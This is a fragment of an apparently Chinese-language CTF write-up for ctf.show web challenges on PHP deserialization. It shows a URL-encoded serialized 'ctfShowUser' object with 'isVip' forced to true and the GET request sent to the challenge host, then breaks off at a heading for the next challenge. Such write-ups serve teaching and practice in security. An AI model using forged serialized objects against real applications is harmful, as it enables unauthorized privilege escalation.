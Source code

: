 得到的结果是

```
O%3A11%3A%22ctfShowUser%22%3A3%3A%7Bs%3A8%3A%22username%22%3Bs%3A3%3A%22123%22%3Bs%3A8%3A%22password%22%3Bs%3A3%3A%22456%22%3Bs%3A5%3A%22isVip%22%3Bb%3A1%3B%7D
```

<figure><img src="../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

传入GET的结果是

```url
http://65180760-7f41-4368-9d05-130363fbfb54.challenge.ctf.show/?username=123&password=456
```

<figure><img src="../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## <mark style="color:blue;background-color:purple;">(4)WEB 257</mark>
